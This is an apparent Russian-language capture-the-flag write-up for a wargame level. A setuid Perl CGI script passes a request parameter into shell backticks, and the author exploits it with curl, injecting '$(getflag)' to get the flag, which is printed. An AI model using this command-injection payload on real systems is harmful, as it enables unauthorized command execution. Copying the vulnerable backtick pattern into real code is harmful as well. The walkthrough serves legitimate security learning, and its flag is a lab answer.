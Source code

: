 	ls -la

	-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
	
Итак, у нас есть какой то скрипт на Перле. У него есть права на запуск с повышением привелегий до пользователя, создавшего файл

	vim level04.pl
	
	#!/usr/bin/perl
	# localhost:4747
	use CGI qw{param};
	print "Content-type: text/html\n\n";
	sub x {
		$y = $_[0];
		print `echo $y 2>&1`;
	}
	x(param("x"));

Итак, там юзается CGI (https://ru.wikipedia.org/wiki/CGI), а именно qw{param},  получается что мы сверяем занчение, которое подаем с param = "x"
	
Посмотрим, запущен ли у нас какой нибудь веб-сервер

	service --status-all
	[ + ]  apache2

Значит будем пробовать посылать запросы на сервер через curl (http://www.4stud.info/web-programming/cgi.html)  (https://ru.hexlet.io/courses/php-mvc/lessons/php-cgi/theory_unit)

	curl localhost:4747/?x='$PATH'

Печатает PATH, работает!

	curl localhost:4747/?x='$(getflag)'

Получаем заветный флаг:

	ne2searoevaevoem4ov4ar8ap
